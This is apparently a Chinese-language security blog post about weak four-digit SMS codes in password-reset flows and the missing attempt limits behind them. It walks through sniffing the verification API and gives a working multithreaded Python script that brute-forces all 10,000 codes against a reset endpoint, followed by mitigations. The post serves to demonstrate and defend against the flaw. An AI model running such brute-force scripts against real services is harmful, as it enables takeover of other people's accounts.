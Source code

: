 ```yaml
---
author: ZhgChgLi
categories:
- ZRealm Dev.
date: 2021-03-14T15:57:38.256+0000
description: 使用 Python 展示暴力破解的严重性
image:
  path: /assets/99a6cef90190/1*xtbLIfJ6KELkGYeVCnzSFg.jpeg
last_modified_at: 2024-04-13T16:30:08.749+0000
render_with_liquid: false
tags:
- ios-app-development
- hacker
- web-security
- password-security
- security-token
title: 找回密码之简讯验证码强度安全问题
---
```


### 找回密码之简讯验证码强度安全问题



使用 Python 展示暴力破解的严重性



![Photo by [Matt Artz](https://unsplash.com/@mattartz?utm_source=unsplash&utm_medium=referral&utm_content=creditCopyText){:target="_blank"}](/assets/99a6cef90190/1*xtbLIfJ6KELkGYeVCnzSFg.jpeg)



Photo by [Matt Artz](https://unsplash.com/@mattartz?utm_source=unsplash&utm_medium=referral&utm_content=creditCopyText){:target="_blank"}



### 前言



本文没什么资安技术含量，单纯是日前在使用某平台网站时的突发奇想；想说顺手测看看安全性，结果发现的问题。



在使用网站、APP 服务的忘记密码找回功能时；一般会有两个选项，一是输入帐号、Email，然后会寄含有 Token 的重设密码页面连结到信箱，点击后打开页面就能重设密码，这部分没什么问题，除非像 [之前那篇](../142244e5f07a/) 文章所说，设计上有漏洞才会有问题。



另一个找回密码的方式是输入绑定的手机号码（多半用在 APP 服务），然后会寄出简讯验证码到手机，完成验证码输入即可重设密码；但为了便利性，多半的服务都是使用纯数字作为验证码，另外也因为在 iOS ≥ 11 之后增加 [Password AutoFill](../948ed34efa09/) 功能，当手机收到验证码后键盘会自动判读并跳出提示。



![](/assets/99a6cef90190/1*f7frmgNsLwW1Q9e9QtAt1A.png)



查找 [官方文件](https://developer.apple.com/documentation/security/password_autofill/about_the_password_autofill_workflow){:target="_blank"} ，苹果并没有给出验证码自动填入的判读格式规则；但我看几乎所有能支援自动填入的服务都是使用纯数字，推测应该是只能用数字不能使用数字英文夹杂的复杂组合。



### 问题



因数字密码的组合存在暴力破解的可能性，尤其是 4 位密码；组合只有 0000~9999，10,000 种组合；使用多个 thread 多台机器就能分组暴力破解。



假设验证请求需要 0.1 秒回应，10,000 个组合 = 10,000 次请求



```
破解所需尝试时间：((10,000 * 0.1) / thread 数) 秒
```



就算不开 thread 也只需要 16 多分种就能尝试出正确的简讯验证码。



> *除密码长度、复杂度不足之外，还有个问题是验证码未设尝试上限、有效期限太长这两个问题。*



### 组合



综合上述，此资安问题常见于 APP 端；因网页服务多半都会在尝试错误多次后加上图形验证码验证或在请求重设密码时需多输入安全问题，增加发送验证请求的困难度；另外网页服务的验证若没有前后端分离，变成每次验证请求都要拿整个网页，拉长请求回应时间。



APP 端因流程设计及方便使用者，多半会简化重设密码流程、有的 APP 甚至是通过手机号码验证就能登入；如果在 API 端没有做防护则会造成资安漏洞。



### 实践



> ⚠️警告⚠️ 本文仅作展示此安全问题的严重性，请勿拿去做坏事。



#### 嗅探验证请求 API



万事都从嗅探开始，这部分可参考之前的文章「 [APP有用HTTPS传输，但资料还是被偷了。](../46410aaada00/) 」、「 [使用 Python+Google Cloud Platform+Line Bot 自动执行例行琐事](../70a1409b149a/) 」第一篇文章看原理建议使用第二篇文章的 [Proxyman](https://proxyman.io/){:target="_blank"} 进行嗅探。



![](/assets/99a6cef90190/1*22uVkKdpDXnwEygDa9lwyA.png)



如果是前后端分离的网站服务也能使用 Chrome -&gt; 检查 -&gt; Network -&gt; 查看在送出验证码后发了什么请求。



![](/assets/99a6cef90190/1*Skm69eJiZKeK4_QUU0wIoQ.png)



**这边假设得到的检查验证码请求是：**



```
POST https://zhgchg.li/findPWD
```



**Response：**



```
{
   "status":fasle
   "msg":"验证错误"
}
```



#### 撰写暴力破解 Python 脚本



crack.py:



```python
import random
import requests
import json
import threading

phone = "0911111111"
found = False
def crack(start, end):
    global found
    for code in range(start, end):
        if found:
            break
        
        stringCode = str(code).zfill(4)
        data = {
            "phone" : phone,
            "code": stringCode
        }

        headers = {}
        try:
            request = requests.post('https://zhgchg.li/findPWD', data = data, headers = headers)
            result = json.loads(request.content)
            if result["status"] == True:
                print("Code is:" + stringCode)
                found = True
                break
            else:
                print("Code " + stringCode + " is wrong.")
        except Exception as e:
            print("Code "+ stringCode +" exception error \(" + str(e) + ")")

def main():
    codeGroups = [
        [0,1000],[1000,2000],[2000,3000],[3000,4000],[4000,5000],
        [5000,6000],[6000,7000],[7000,8000],[8000,9000],[9000,10000]
    ]
    for codeGroup in codeGroups:
        t = threading.Thread(target = crack, args = (codeGroup[0],codeGroup[1],))
        t.start()

main()
```



执行脚本后我们得到：



![](/assets/99a6cef90190/1*jGp69g9H1BjLqq6SdIHRBw.png)



```
验证码等于：1743
```



将 `1743` 带入重设密码更改掉原始密码或直接登入帐号。



> Bigo!



### 解决之道



- 密码重设增加更多资讯验证（如：生日、安全问题）


- 增加验证码长度（如 Apple 6 码数字）、增加验证码复杂度（如果不影响 AutoFill 功能）


- 验证码尝试错误大于 3 次后使其失效，需请使用者重新发送验证码


- 验证码有效时限缩短


- 验证码尝试错误过多次锁定装置、增加图形验证码


- APP 多做 SSL Pining、传输加解密（防止嗅探）



### 延伸阅读



- [揭露一个几年前发现的巧妙网站漏洞](../142244e5f07a/)


- [如何打造一场有趣的工程CTF竞赛](../729d7b6817a4/)


- [APP有用HTTPS传输，但资料还是被偷了。](../46410aaada00/)


- [使用 Python+Google Cloud Platform+Line Bot 自动执行例行琐事](../70a1409b149a/)



有任何问题及指教欢迎 [与我联络](https://www.zhgchg.li/contact){:target="_blank"} 。



*[Post](https://medium.com/zrealm-ios-dev/%E6%89%BE%E5%9B%9E%E5%AF%86%E7%A2%BC%E4%B9%8B%E7%B0%A1%E8%A8%8A%E9%A9%97%E8%AD%89%E7%A2%BC%E5%BC%B7%E5%BA%A6%E5%AE%89%E5%85%A8%E5%95%8F%E9%A1%8C-99a6cef90190){:target="_blank"} converted from Medium by [ZMediumToMarkdown](https://github.com/ZhgChgLi/ZMediumToMarkdown){:target="_blank"}.*